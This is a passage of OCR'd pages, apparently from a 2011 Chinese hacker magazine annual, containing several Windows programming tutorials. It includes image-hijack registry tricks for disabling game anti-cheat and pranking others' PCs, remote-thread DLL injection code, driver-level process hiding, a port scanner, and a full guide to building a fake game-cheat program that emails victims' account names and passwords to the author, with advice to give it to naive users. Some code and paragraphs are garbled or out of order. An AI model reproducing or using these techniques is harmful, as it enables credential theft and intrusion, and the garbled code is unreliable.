Execution_Options\Trojanhorse1.exe（病毒进程名）]
"debugger"="cmd.exe（准备的小程序，如果没准备就留空）"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Win-
dows\NT\CurrentVersion\Image_File
Execution_Options\Trojanhorse2.exe]
"Debugger"="cmd.exe"（为防止木马埋伏下第三个
进程干脆把这两个都劫持掉,有备无患嘛。使用的时候记
得把小括号及其中的注释文字删掉）


```

输入注册表之后就可以在任务管理器中结束病毒进程了，但请动作快点否则就有可能被层层叠叠的命令行窗口或报错窗口埋掉。而且如果你刚才选的是一个较大的程序，那么你面临的就是死机的威胁了。把病毒进程结束掉之后处理起来就容易多了，这里就不赘述了。

以上只是个例子实际运用起来还有很多的用法，比如某个恶意软件开机启动无法禁止干脆就劫持掉它省时又省力。比如说TX的安全模块要流氓，那也劫持掉好了，反正我们又没有删除文件，TX只能干瞪眼。

# 黑客编程

再比如一些游戏会在运行的同时启动内置安全模块（比如TX的TP，世纪天成的hackshield以及众多来自宇宙第一强国的游戏携带的各种安全模块），用于检测用户的非法行为（大家都明白）。安全模块会随游戏主程序启动并检测系统环境；如果有异常就关闭游戏主程序。如果一切正常就生成一份安全报告给游戏主程序来授权运行（也有的是报忧不报喜，或生成检测报告文件而不是直接进行程序间通信，这样的比较好对付。），之后就在后台默默运行，时刻准备给进行非法操作的玩家念出六字真言（网络连接中断）。对于这些安全检测模块可以使用映像劫持的方法：先正常开启一遍（必要），并记下该模块的进程将该组件劫持。如果这款游戏是我说的那两种比较好对付的类型，就可以在安全模块未启动的情况下玩了，想干什么就干什么。如果是进行程序间通信那么就需要使用工具截获其中的通信内容，而且那样的安全检测模块绝不会只通信一次，这就需要你有足够的耐心来收集通信内容，然后编写一个小程序来模拟该游戏的安全检测模块就行了（大部分游戏都会进行文件校验，所以一定不要动原有文件，而是用映像劫持的方式将对安全检测模块的启动命令映射到编写的小程序上）。

或者拿来搞恶作剧？比如将别人的电脑中的常用程序劫持为整人小程序？总之要开动你的想象力，事实证明映像劫持还是一个比较有意思的东西。为了方便使用，我写一个批处理给大家，但如果你拿来恶作剧造成了什么损失，哈哈，今天天气真，在下尚有事要办去，这便告辞了。

（文中涉及的“相关代码”本期光盘已收录）

# DLL简介与远程程DLL注入原理

·Linux-top

相信学过C语言，但啥都干不了的小菜们不在少数，无奈步入windows系统编程的学习周期实在是太长，不免有些枯燥，所以我在这里介绍一些远线程dll注入的知识，这并不是什么新技术，但我这等菜鸟编程路上却是必备知识，希望对X子们有所帮助，高手略过。

DLL称为动态链接库（Dynamic-Link Library的缩写）。DLL是一个包含可以由多个程序同时使用的代码和数据的库，DLL不是可执行文件（不能直接执行），但里面的函数和数据可以被其他程序调用或使用。动态链接的出现使进程可以调用不属于其可执行代码的函数。函数的可执行代码可以位于一个DLL中，该DLL文件中包含的函数和数据显然是不属于应用程序代码的，但是却被映射到可执行程序的内存地址空间中，如图1所示。多个应用程序可同时访问内存中单个DLL副本的内容，可以简单的理解为“共享的代码（也可以是数据）段”。
```c
#include <windows.h>
BOOL APIENTRY DllMain( HANDLE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
            MessageBox(NULL,"附加到进程","DLL通知",MB_OK);
            break;
        case DLL_THREAD_ATTACH:
            MessageBox(NULL,"附加到线程","DLL通知",MB_OK);
            break;
        case DLL_THREAD_DETACH:
            MessageBox(NULL,"解除了本线程","DLL通知",MB_OK);
            break;
        case DLL_PROCESS_DETACH:
            MessageBox(NULL,"解除了本进程","DLL通知",MB_OK);
            break;
    }
    return TRUE;
}


```

图2

现在我们就来建立一个用于测试的DLL，VC++6.0-文件-新建-工程-选win32Dynamic-link Library-确定-选一个简单的DLL工程，系统帮助你建立了一个包含DllMain入口函数的工程，但此DllMain不是必须的（就是说DLL不必有入口，若有会先从在这里执行），添加switch语句块（见源码）后如图2所示，这样编译后生成的DLL就可以用于测试该DLL的加载与解除了（原理不说，一会看效果，你懂的！），程序编译后生成了*.dll文件。我们要做的就是让其它进程（我们要注入的进程）调用LoadLibrary系统函数来载入我们的这个dll。

但是问题随之即来，如何让别的进程调用LoadLibrary函数载入我们的dll文件呢？这里介绍一个API函数，CreateRemoteThread-创建远程线程,就是命令别的进程新开一个线程。参数如图3所示，从图3中看到我们需要一个被注入的进程的句柄（所谓句柄就是资源的把柄，类似指针但不是，是个数值），和一个线程函数地址lpStartAddress，还有线程函数的参数。
但有两点需要注意：
1、执行的函数地址：lpStartAddress必须是人家进程中的。
2、参数：必须是人家进程中的资源（比如字符串）。
我们想让别的进程执行的函数是LoadLibrary，LoadLibrary是属于Kernel32.dll中的函数，一般程序都会加载Kernel32.dll，我们要准备的是得到Kernel32中LoadLibrary函数的地址：得到了我们放到哪里存放呢？声明一个函数指针
```c
typedef DWORD (WINAPI *PTHREAD_START_ROUTINE) (LPVOID);
```
用来存放得到的函数地址。（图4中详解此函数指针。）

```
pfnThreadRtn=(PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("Kernel32"),"LoadLibraryA");
```

现在pfnThreadRtn就是远程进程中LoadLibrary函数的地址了。现在准备远进程的虚拟内存空间，用来存放LoadLibrary函数的参数，用VirtualAllocEx函数，如下：

```
int cch=1+strlen(pszLibFile);
////在此之前已经char* pszLibFile="D:\\VC6\\MyProjects\\dll14\\Debug\\dll14.dll";了
//即将写入远程进程空间的字符串；
int cb=cch*sizeof(char);
pszLibFileRemote=(PWSTR)VirtualAllocEx(hProcess,NULL,cb,MEM_COMMIT,PAGE_READWRITE);
```

pszLibFileRemote就是我们的dll文件路径名字符串在远进程地址空间中的地址了，最后：

```
hThread=::CreateRemoteThread(hProcess,NULL,0,pfnThreadRtn,pszLibFileRemote,0,NULL);
```

创建一个win32控制台程序，选择“一个简单的程序”录入代码：

```c
#include "stdafx.h"
#include <windows.h>
#include <stdlib.h>
#include <iostream>
int main(int argc, char* argv[])
{
  HANDLE hProcess=NULL;    //打开的远程进程的句柄；
  HANDLE hThread =NULL;    //创建的远程线程的句柄；
  char* pszLibFile="\\dll14.dll";//即将写入远程进程空间的字符串；
  PWSTR pszLibFileRemote=NULL;    //字符串在远程进程中的地址；
  std::cout<<"输入要注入的进程PID"<<std::endl;
  DWORD Process_PID=0;    //要注入的进程的PID号；
  std::cin>>Process_PID;
  hProcess=::OpenProcess(PROCESS_QUERY_INFORMATION|
    PROCESS_CREATE_THREAD|
    PROCESS_VM_OPERATION|
    PROCESS_VM_WRITE,FALSE,Process_PID);
  if(hProcess==NULL)
  {
    MessageBox(NULL,"得到进程句柄失败",NULL,MB_OK);
    exit(0);
  }
```

# 黑客编程

```c
//准备地址,放入pfnThreadRtn。(LoadLibrary函数在远程进程中的地址)
typedef DWORD (WINAPI *PTHREAD_START_ROUTINE)(LPVOID);
PTHREAD_START_ROUTINE pfnThreadRtn=(PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("Kernel32"),"LoadLibraryA");
//准备虚拟内存,地址放到pszLibFileRemote中(用私有表示申请)
int cb=1+strlen(pszLibFile);
//1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1+1
/**/
int cb=cb*sizeof(char)
pszLibFileRemote=(PSTR)VirtualAllocEx(hProcess,NULL,cb,MEM_COMMIT,PAGE_READWRITE);
//如果发现分配处于就写入"DLL的路径名字符串"
if(pszLibFileRemote==NULL)
MessageBox(NULL,"分配远程内存失败",NULL,MB_OK);
WriteProcessMemory(hProcess,pszLibFileRemote,(PVOID)pszLibFile,cb,NULL)
//创建并启动远程线程
hThread=CreateRemoteThread(hProcess,NULL,0,pfnThreadRtn,pszLibFileRemote,0,NULL);
return 0;


```

指定你之前工程下的dll的路径后编译。调试运行后打开一个记事本程序输入要此远程进程的PID号，就将dll注入到notepad进程中了，同样效果有道词典，效果如图5、6所示；你可以把你想做的事情放在dll文件中调用，比如exit（0）用来退出进程之类的，也可以试试把应用程序代码的CreateRemoteThread函数的实参pfnThreadRtn换成0，访存违规就挂掉了（说的是被注入的进程哦）。上面的代码都有很详细的注释，希望小白消化掉。文章到此也该结束了，其实还有大量的工作要做：比如分配了虚拟内存还没有释放，不支持输入函数名，异常也没有捕捉，还有权限问题，有些软件的进程句柄会打不开。本次只介绍了一个框架，用于理解原理，主要是访存这部分，具体的工作还得自己发挥，这些东西就留着X子们研究了。
（文中涉及的“工程文件”本期光盘已收录）

# 驱动级进程保护

沧海浮萍

在病毒木马与杀毒软件的彼此较量中，驱动程序对杀毒软件进程的保护是极其重要的，谁优先加载了驱动，谁就占据了这场“战争”的制高点。在通常情况下，杀毒软件都是事先安装在计算机上的，所以当木马或者病毒携带驱动开始运行的时候就会被拦截下来，并提示用户是否允许加载该驱动。如果我们写的这个驱动不含杀毒软件的病毒特征，杀毒软件的拦截功能一般会将修改选项默认设置在“允许”选项上，如图1所示金山卫士的拦截情况。国内常见的拦截软件有金山卫士、360安全卫士，笔者在测试时候发现这两款软件都将选项设置在“允许修改上”。当然我们采用编程的方法可以使他们不弹出提示，然后再运行我们的驱动。本文中笔者将介绍利用驱动来保护指定的进程，并制作一款个人专用的进程保护工具，界面如图2所示。对于驱动的制作笔者将在后面的文章中介绍，这里仅提供了一个可移植的驱动，读者可以直接拿来用。
文章中所使用的语言为VC++，平台是VC6.0。在使用本代码的时候需要安装xpDDK开发包，并将DDK头文件以及lib文件包含到VC6.0平台中，同时还要在工程中添加winsvc.h、tlhelp32.h两个头文件，否则编译过程中会有错误出现。文章中将只为大家介绍过程实现的核心代码。新建MFC应用程序，并添加3个按钮，一个编辑框，以及一个列表控件，如图3所示。然后为控件添加变量，这里只要为编辑框以及列表控件添加变量，编辑框控件的类型为CEdit，列表框控件的变量类型为CListCtrl，名称为m_process_list，如图4所示。添加完毕后，我们开始书写代码。第一部分是获得进程列表，并添加到列表框中，我们将代码书写在对话框初始化的代码中，即OnInitDialog()，关键代码如下所示。

```cpp
m_process_list.InsertColumn(0, _T("ID"), LVCFMT_LEFT, 30);
m_process_list.InsertColumn(1, _T("进程"), LVCFMT_LEFT, 100);
m_process_list.SetExtendedStyle(LVS_EX_FULLROWSELECT | LVS_EX_GRIDLINES);
m_process_list.SetItemData(0, 888);


```
图2
图3

为了使我们的列表框中的进程能够实时刷新，这里我们采用设置定时器的方法，设置为5s刷新一次。启动定时器的代码我们也写在初始化对话框中，代码为SetTimer(1,5000,NULL)。上面的代码一定要写在return TRUE返回代码之前，否则代码将不会被执行。

| Control IDs | Type | Member |
| --- | --- | --- |
| IDC_BUTTON1 | CButton | m_button1 |
| IDC_BUTTON2 | CButton | m_button2 |
| IDC_EDIT1 | CEdit | m_edit |
| IDC_LIST1 | CListCtrl | m_process_list |

Description: map to CEdit member

图4

下面要做的是获取进程列表，我们添加一个公有成员函数init()，首先在头文件000000Dlg.h中添加我们需要的在后面用到的函数的声明，如下所示：

```cpp
public:
	CMy000000Dlg(CWnd* pParent = NULL);	// standard constructor
	BOOL LoadNTDriver(char* lpszDriverName,char* lpszDriverPathName);//加载驱动的按钮的代码
	BOOL UnLoadSys( CString szSvrName );	//卸载驱动的按钮的代码
	void Hook(HANDLE hDevice, ULONG pid);//pid需要被保护进程的pid
	void init();//初始化进程列表


```

添加完毕后，我们就需要在000000Dlg.cpp文件中实现这些代码。init()的实现代码笔者就不列举了，光盘中已经提供了本节的所有源代码，读者可以自己查看。在init()实现后，由于我们前面已经设置了定时器，所以这里要添加相应定时器的函数，操作方法如下。在程序的class窗口中，如图5，选择***Dlg类点击右键，选择添加消息响应，如图6所示。然后在消息列表中选择
图5
图6
图7

## 黑客编程

择WM_TIMER消息，然后点击“ADD and EDIT”，如图7所示。此时我们将来到如图8所示的代码位置，我们在这里添加相应代码即可。

```cpp
void CMy00000001Dlg::OnTimer(UINT nIDEvent) //这里是相应定时器的函数
{
    // TODO: Add your message handler code here and/or call default
    switch (nIDEvent)
    {
    case 1:
        init();
        break;
    }
    CDialog::OnTimer(nIDEvent);
}


```
代码的具体实现笔者就不在赘述了，代码中已经给出了比较详细的注释，这里所列举的四个关键函数：

```cpp
BOOL LoadNTDriver(char* lpszDriverName,char* lpszDriverPathName);
BOOL UnloadSys(CString szSvrName);
void Hook(HANDLE hDevice, ULONG pid);
void Init();


```

每一个都可以单独拿出来用到其他的程序中，应该说移植性还是比较强的，读者可以将其提出并使用在自己的程序中。这里要提醒的一点就是在驱动的测试过程中建议读者尽量在虚拟机中测试，因为稍有不慎就会是机器蓝屏。

感兴趣的读者可以在本基础上继续开发，同时要增强程序的安全性，以及错误处理。在使用驱动保护后，被保护的进程将不会再金山进程管理器中出现，同时任务管理器将无法结束该进程，这里用记事本程序做演示，保护前后以及用任务管理器结束该进程的效果图如图9、10、11所示。显示进程保护状况的工具这里没有给出，笔者还在继续完善，将会在后面的文章中给出该工具。
（文中涉及的“驱动与驱动保护文件”本期光盘已收录）

## 易语言编写端口扫描器

水晶萧竹

学习易语言很长时间了，也算是个老鸟了吧。以前就想着给大家做一个端口扫描的例子，只是一直没有时间，终于趁着清明放假的这几天，给大家写出这篇文章来。

文章内容简单，菜鸟以上略过就行了。

首先，我们先制作一个端口扫描的可执行文件，也就是后缀是.exe的文件。

准备好易语言，我用的是5.1版的，别的版本都行，都一样用。新建一个“Windows窗口程序”（如图1）。

176

## 黑客编程

2011合订本上卷
在建立好的程序调试窗口中添加上三个输入框、四个标签、两个按钮和一个列表框（如图2、图3），告诉大家一个小窍门，那就是再添加的时候按住shift可以连续添加多个控件哦！

好了，现在修改一下各个控件的属性。在易语言窗口的左边，有一个小框框，底下的标签分别是“支持库”、“√程序”和“属性”，当我们切换到属性标签的时候，我们就可以修改你选中的控件的属性了，可以看到标签的属性中有一个“标题”，我们只要修改它就可以使标签中显示的内容改变了（如图4）。

按照我给出的图三的标签控件的布局，从上到下一次将标签属性中的标题改为“将要扫描的IP”、“起始端口”和“结束端口”（注意：修改属性的时候应当先选中你所要修改的控件）。然后再修改两个按钮的属性，也是先选中按钮控件，然后将属性中的标题修改为“开始扫描”和“停止扫描”。修改后（如图5）所示。

修改完属性，接下来就要开始写代码了。这个程序
我们使用的最主要的代码就是“端口检测（，）”了。这句代码可以检测指定IP的制定端口是否开放。如果指定端口开放则返回真；否则返回假。

还有一句代码也挺重要的，那就是编程应用当中最常用的循环语句。

先介绍一下易语言当中的四种循环语句。这四种语法分别是“变量循环”、“判断循环”、“循环判断”和“计次循环”。“变量循环”是一个运用十分广泛，但是用起来最麻烦的一个循环语法；“判断循环”是指先判断后循环，首先判断“判断循环首（）”括号里面的条件是否成立来
可以理解为能够人为控制循环次数的循环语法。

许多同学都对易语言当中的循环语法和正则表达语法十分的头疼，其实我们只要认真揣摩返回值返回的信息，就非常好了。

我们这里因为不一定从1开始循环，所以我们不能用“判断循环”、“循环判断”和“计次循环”，只能用最为复杂的“变量循环”。

介绍完这两个代码，我们同学也对这两种代码有了初步的了解了，接下来我们就将这辆中代码写入程序当中。

回到易语言界面当中，我们双击“开始扫描”按钮，来到代码编辑页面（如图6），我

确定是否执行循环的，如果括号里的条件成立，程序顺序执行下一条命令进入循环，否则跳转到本命令所对应的“判断循环尾（）”命令的下一条命令行处跳出循环；“循环判断”是指先循环后判断，首先程序进入循环，然后执行完一次循环，判断“循环判断尾（）”括号里的内容是否成立，成立则跳转到“循环判断首（）”再进行一次循环，直到“循环判断尾（）”括号里的内容不成立；“计次循环”是
## 黑客编程

2011合订本上卷
图7

我们可以看到有一个“_按钮1_被单击”的子程序（“按钮1”是“开始扫描”的按钮的名称），我们只要在它的下面写代码，单击“开始扫描”的时候，就会执行它下面的代码了。

首先我们要先建一个整数型变量，让它执行完一次循环就比原来的值大1，比如第一次循环的时候这个变量为1，第二次循环的时候这个变量变成了2，第三次循环变成3。用这个变量作为要检测的端口。

单击菜单栏上的“插入”—“局部变量”，在“_按钮1_被单击”的子程序中添加一个名为“循环变量”的局部变量，然后在类型当中按下空格键，在弹出的菜单中选择“整数型”（如图7），然后在线面的空白处写上如下代码（如图8）：

```
循环变量 = 到数值 (编辑框2.内容)
.变量循环首 (到数值 (编辑框2.内容), 到数值 (编辑框3.内容), 1, 循环变量)
    端口检测 (循环变量, 编辑框1.内容)
.变量循环尾 ()


```
图8

然后我们按下F5或者单击菜单栏上的“运行”菜单中的“运行”来运行一下我们写的程序（如图9图10）。

可以正常运行，说明现在的代码还没有错误，可是这样检测到的端口也不能显示出来啊？没关系，还记不记得上面我们提到的“端口检测（，）”如果检测到端口开放时返回的值？是的，如果被检测端口开放，这句代码会返回“真”，这样我们就要用到“如果（）”这个函数了。关闭调试中的程序，将原来的代码稍微修改一下（图11）：

```
循环变量 = 到数值 (编辑框2.内容)
.变量循环首 (到数值 (编辑框2.内容), 到数值 (编辑框3.内容), 1, 循环变量)
    .如果 (端口检测 (循环变量, 编辑框1.内容) = 真)
```

列表框1.加入项目 (到文本 (循环变量), )
.否则
.如果结束
.变量循环尾 ()

代码这样就写完了，但是为了方便，我们还要在循环当中添上一个“跳出循环（）”用来单击“停止扫描”的时候程序跳出循环停止扫描。我们只要再添加一个全局变量（“插入”—“全局变量”）：变量名：跳出循环，类型：逻辑型

然后在循环中写入以下代码：

```
.如果 (跳出循环 = 真)
    跳出循环 ()
.否则


```

然后双击“停止扫描”来写“停止扫描”的代码：

跳出循环 = 真
图11

整个的代码就都写完了，是不是非常简单啊？如果还有不懂的，看录像吧，我都录下来了，如果再不明白，可以去论坛给我留言，期待和大家探讨编程问题哦！

（文中涉及的“编程源码”本期光盘已收录）
图9
图10

## 关于DNF“外挂”的简单制作

黑酷

现在编写外挂的人越来越多，但是当你使用这些外挂的时候，你是否知道你的账号和密码在你不经意的情况下已经发到别人的邮箱里去了，接下来就有我为大家讲解一下如何编写一个仿钓鱼外挂与反钓鱼的方法。

我们需要以下几款软件：

- 1. 易语言
- 2. 嗅探器
图1
图2

“易语言”想必大家都清楚是什么吧，网上也有很多下载的地址，在这里我就不给大家介绍了，“嗅探工具”就是探测这个外挂是不是在你输入完账号或密码的情况下把你的账号和密码发到编写外挂人的邮箱里去了。

易语言和嗅探工具的安装很简单，在这里我就不想大家一一介绍了，接下来我们就来编写一个“仿钓鱼外挂”和“嗅探器”的使用。

“嗅探器”的使用。

首先，我们要运行“易语言”，运行以后会出现一个框，（如图1）。

我们点击“Windows窗口程序”--->“启动后不再显示此对话框”--->“确定”，完成以后我们会得到一个这样的界面。（如图2）
图3

现在，我们开始进行设置这个外挂的运行界面了，在这里我就以DNF为例设置一个运行界面，我们要设置这个运行界面首先要有一个标题，在哪里写一个标题呢？我们可在“启动窗口”这个框下的“标题”的右面输入运行界面的标题，这里我就输入“DNF无敌外挂”（如图3），虽然有标题了，但是，这样有点不美观，我们是不是应该在这个标题前面加一个图标啊，我们还是在“启动窗口”这个框下的“图标”的右边插入一个图标文件，这个图标文件网上有很多，在这里我就不太详细地说了，我随便插入一个图标文件，（如图4）插入完以后，这个运行界面的标题栏我们就算做完了，我们还可以在“启动窗口”这个框下“底色”这一处选择这个外挂的运行界面的背景，接下来我们为了让这个外挂的运行界面更加的美观，使用户更加的相信这个外挂是否是真实的，我们需要几个单选框和几个按钮。
图4

## 黑箭编程

2011合订本上卷
景颜色相符的（我个人认为改成黑色），这样就能引诱用户使用此外挂，（如图6）依此类推，下面的也可以根据以上的方法来进行进行操作，（如图7）为了让这个外挂做得更美观一点我们可以插入一张图片，这个发很简单在“基本组件”这一框里点击“图片框”我们即可插入你想要的图片了，这个和上面说的差不多，在这里我也不多说了，我随便插入一个图片。（如图8）

我们写这个仿钓鱼外挂的目的是什么？就是获取对方的账号和密码，接下来，我们开始添加输入“账号”和“密码”的框，方法很简单，我们先单击“基本组件”的框下的“按钮”我们拖动两个，（如图9）然后我们点击第一个“按钮”在左面的框中“标题”的右面填写“请输入账号”然后在点击第二个“按钮”在左面的框中“标题”的右面填写“其输入密码”，（如图10、11）光有这两个“请输入账号”和“请输入密码”还是不行的，我们点击“基本组件”框下的“编辑框”拖动出来两个，分别放在“请输入账号”和“请输入密码”的后面，（如图12）这样就能够输入账号和密码了，但是，我们在这两个编辑框里面可以无限制的输入数字和字母，这样会暴露我们这个外挂是假的，所以我们点击“请输入账号”后面的“编辑框”，在左面的框中“最大允许长度”右面输入“10”，然后在“输入方式”的右面选择“整数文本输入”，这样，这个“编辑框”内只能输入10个数字了，（如图13）下面，我们点击“请输入密码”后面的“编辑框”在左面的框中“最大允许长度”的右面输入“16”因为密码最大长度就是十六位，然后我们在“输入方式”的右面选择“密码输入”在“密码输入方式”的右面输入“*”，（如图14）最后，我们点击“基本组件”框下的“按钮”拖动两个按钮出来，然后分别在第一个按钮的“标题”输入“确定”，在第二个按钮的“标题”输

首先我们先创建几个选择框，我们可以在“基本组件”的框下单击“选择框”然后再运行界面上拖动几个选择框，在这里我就拖动了五个，（如图5）有了这些“选择框”我们为了使这个外挂真实，我们点击第一个“选择框”在编辑框一栏中我们“标题”的右边填写你想让这个外挂实现的功能，根据《地下城与勇士》这个游戏，玩家很反感疲劳，因为疲劳一到就刷不了图了，所以我填写的是“无限疲劳”我们为了做的真是一点，我们可以把文本颜色改成显眼的颜色（我个人认为改成红色）把背景颜色也改成与标题背

人“关闭”因为这个和上面的操作很相似，所以在这里我就不给大家截图了，好了，到了这一步这个“防钓鱼外挂”的运行界面就算完成了。
接下来我们开始填写代码，我们双击按钮“确定”，我们在这里输入“信息框（“您输入的账号或密码错误，请检查大小写是否正确。”）”，（如图15）（问：为什么要在运行界面“确定”下添加这样的一条代码呢？ 答：万一用户输入的账号和密码是瞎打上的呢，他一运行没有提示，用户会怀疑这个外挂是否是真的，所以我们必须在按钮“确定”下添加上以上这条代码。）然后，我们在运行界面中双击按钮“关闭”我们在这里输入“销毁”（如图16）为了试验我们填写的代码是否能达到以上说的效果。我们试验一下，我们在“启动窗口”--->“”（如图17、18）接下来就是我们添加代码中最难得一个了，我们在双击“启动窗口”中的“确定”按钮，我们在工具栏中点击“工具”下的“支持库配置”我们在这里选择“互联网支持库 2.0 版”然后点“确定”（如图19）然后我们在这里添加以下代码：
## 黑客编程

连接发信服务器（“这里输入发信邮件服务器地址，这个邮箱必须支持POP3、stmp才行”，25，“这里输入用户名”，“这里输入密码”，）
发送邮件（编辑框1.内容，编辑框1.内容 ＋ “----” ＋ 编辑框2.内容，“这里输入收信人邮箱地址”，），“这里输入发信人邮箱地址”，）到这里我们就添加完代码了，接下来我们就来试验一下，看看是否能实现这个功能，我输入发信右键服务器地址是smtp.pchome.com.tw用户名是664933772，收信人地址是wxw96@163.com发信人邮件地址是664933772@pchome.com.tw（如图20）
试验结果表明成功。

我们在“工具栏”中点击“编译”里面的“静态编译”，然后放在你想要的位置上就行了，我们也可以把这个“防钓鱼外挂”发给一些网络能力比较差的人，当他们输入账号和密码的同时却不知道自己的账号和密码已经被发送到你的邮箱里面了，到了这里我们把“仿写钓鱼外挂”这个软件写完了，我们使用外挂的时候不知道这个外挂是否是钓鱼外挂，这个时候我们就可以使用“嗅探器”来探测一下这个外挂是否是钓鱼外挂。

接下来，我们就进行如何使用“嗅探器”来判断这个外挂是否是钓鱼外挂，查看它把我们的账号和密码都发送到哪个邮箱里面去了；我们是否能找到那个邮箱的密码，下面我就给大家讲解什么事反钓鱼，反钓鱼都有什么作用，首先我们必须知道什么是嗅探器？

嗅探器是可以窃听网络上流经的数据包。用集线器hub组建的网络是基于共享的原理的，局域网内所有的计算机都接收相同的数据包。

网上嗅探器有很多，我在这里就给大家提供一个我认为很好的嗅探器，嗅探器在关盘里有感兴趣的可以在光盘里面下载，知道了什么是嗅探器，而我们现在也必须知道stmp、pop3、ftp服务端口，stmp:(简单邮件传输协议)负责邮件的发送和传输POP3：(Post Office Protocol)邮局协议pop邮箱是在web页面的一种收信方式，他可以将其它信箱里面的信件全部都收到目前这个邮箱中，类似于客户端收信的形式。

POP3是邮件邮局协议第三代(post office protocol)的缩写，是绝大多数邮件收发程序使用的协议，接收邮件时，一般都使用该协议。在服务器上的电子信函邮箱，你能使用像Outlook，Outlook Express、Foxmail和Netscape Mail等邮件程序直接访问你的邮件。每一个POP3账号都有自己的密码，不论你在哪一个地方连上互联网都可以检查你的邮件。

知道了“stmp、pop3、ftp服务端口”会对我们接下来的实验会有很大的帮助的。
我们可以试验一下我们写的这个“防钓鱼外挂”是否能被“嗅探器”查到和探测到发送邮箱的密码，首先，我们先运行我们已经写好的“DNF无敌外挂”，当我们选择好功能和输入账号、密码的时候，我们运行“嗅探器”然后再运行我们写好的“仿钓鱼外挂”，我们在那个外挂的运行界面写好账号和密码以后，我们打开“嗅探工具”点击菜单栏中的“Capture”--->“Interfaces...”然后我们在菜单栏中的“Filter”栏的后面填写“smtp”我们会看见很多数据，我们在“Info”这一列中寻找后面带“=”的代码，找到以后，我们右键点击选择“follow TCP Stream”（如图21）点击以后我们等待一会，等待加栽到100%会出现一个标题为“follow TCP Stream”界面，在这里我们注意一下红颜色的字，（如图22）第一个框中的代码是最为重要的，这条代码是用了base64加密过的所以，只要我们吧这条代码解密以后就会知道发送邮箱的密码了，第二个框的意思就是“寄信者的地址”第三个框的意思是“收件人的地址”第四个框的意思就是属于正文了“来自于664933772@pchome.com.tw”的邮件（如图23），我们可以通过解密的方法进入对方的收件邮箱，来获取使用这个外挂人的账号和密码，到这里基本上已经结束了，在这里我还是要提醒大家，在你使用外挂的时候一定要用“嗅探器”查看一下，这个外挂是不是钓鱼外挂，如果是的话，那你就幸运了。

## Windows Shell 扩展编程

沧海浮萍

所谓的Shell扩展就是能够添加某种功能到Windows Shell的COM对象。Windows里有着各种各样的扩展，但关于Shell扩展的原理以及如何编写Shell扩展的文档却很少。如果你想深入地了解Shell各方面的细节，我特别推荐Dino Esposito的著作《Visual C++ Windows Shell Programming》。不过这些是英文的书籍，当然你可以参照词典进行阅读。

笔者仅对Shell扩展进行了概括性的代码阐述，并给出了一个上下文菜单的扩展实例让读者理解这个过程，由于shell编程需要涉及到com的知识，所以如果读者对shell编程感兴趣的话建议自学一下com的相关知识。

那Shell扩展到底是什么东西？

"Shell扩展"从字面上分两个部分，Shell与Extension。Shell指Windows Explorer，而Extension则指由你编写的当某一预先约定好的事件（如在以.doc为后缀的文件图标上单击右键）发生时由Explorer调用执行的代码。因此一个Shell扩展就是一个为Explorer添加功能的COM对象。Shell扩展是个进程内服务器（运行在Explorer进程内），它实现了一些接口来处理与Explorer的通信。ATL在编程人员看来是设计Shell扩展最简单最快捷的方法，如果没有它，你就不得不一遍又一遍地编写繁琐的QueryInterface()及AddRef()代码。另外，在Windows NT和2000上调试Shell扩展相对比较容易一些。

Shell扩展有很多种类型，每种类型都在各自不同的事件发生时被调用运行，但也有一些扩展的类型和调用情形是非常相似的。

下面开始介绍相关的知识：

**Context menu**

扩展处理器，用户右键单击文件或文件夹对象时，或在一个文件夹窗口中的背景处单击右键时（添加菜单项到上下文菜单中。

**Property sheet**

扩展处理器，要显示一个文件对象的属性框时 添加定制属性页到属性表中。

**Drag and drop**

扩展处理器，用户用右键拖放文件对象到文件夹窗口或桌面时 添加菜单项到上下文菜单中。

**Drop**

扩展处理器，用户拖动Shell对象并将它放到一个文件对象上时 任何想要的操作。

QueryInfo扩展处理器，用户将鼠标盘旋于文件或其他Shell对象的图标上时，返回一个浏览器用于显示在提示框中的字符串。

这里你可以简单的将其理解为“额外添加的右键菜单”。

Shell扩展的类型很多，而且微软也正不断地在每一新版本的Windows中加入更多的扩展类型。由于菜单扩展的编程方法比较简单，也容易理解，所以笔者这里就结婚扫扩展菜单的编程方法。

在我们编写代码之前，先说一些一下简化编码及调试工作的技巧。当shell扩展被Explorer调用后，它会内存中呆上一段时间，这会使你无法重新编译并生成Shell扩展DLL文件。

要让Explorer更迅速地卸载Shell扩展执行文件,需要创建如下注册表项：

**HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer**

并创建一个名为DesktopProcess的DWORD值1.这会使桌面和任务栏运行在同一个进程中，而其他每一个Explorer窗口都运行在自己的每一个进程内，也就是说，你可以在单个的Explorer窗口内进行调试，而后只要你关闭该窗口，你的DLL就会被马上卸载，这就避免了因为DLL正被Windows使用而无法替换更新。而如果不幸出现这种情况，你就不得不注销登录后再重新登录进Windows从而强制卸载使用中的Shell扩展DLL。

开始编写上下文菜单 - 它该做些什么？

基本的知识有了，下面我们就可以开始编写代码了。首先我们先从简单的开始，只弹出一个对话框以表明当前的扩展能够正常地工作。我们将这个shell扩展关联到，TXT文件，因此当用户右键单击文本文件对象时扩展就会被调用。

我们采用的平台依然是VC6.0。

运行AppWizard，生成一个名为SimpleExt的ATL COM工程。保留所有默认的设置选项，点击”完成“。现在我们已经有了一个空的ATL工程，它可以编译并生成一个DLL,但我们还需要添加Shell扩展的COM对象。

在ClassView中，右击SimpleExt classes条目，选择New ATL Object。在ATL Object Wizard里，第一页默认已经选择了Simple Object，所以单击Next即可。在第二页中，在Short Name文本框里输入 SimpleShellExt，点击 OK. (其余的文本框会自动填充完) 这样就创建了一个名为CSimpleShellExt的类，其包含了实现COM对象最基本的代码，我们将在这个类中加入我们自己的代码。

基本的工作已经完成了，下面我们就进行下一步操作：初始化接口。当我们的shell扩展被加载时，Explorer将调用我们所实现的COM对象的QueryInterface()函数以取得一个IShellExtInit接口指针。该接口仅有一个方法Initialize()，其函数原型为：

```
HRESULT IShellExtInit::Initialize ( LPCITEMIDLIST pidlFolder, LPDATAOBJECT pDataObj, HKEY hProgID );
```

Explorer使用该方法传递给我们各种各样的信息，

PidFolder是用户所选择操作的文件所在的文件夹的PIDL变量。(一个PIDL [指向ID列表的指针] 是一个数据结构，它唯一地标识了在Shell命名空间的任何对象，一个Shell命名空间中的对象可以是也可以不是真实的文件系统中的对象。)

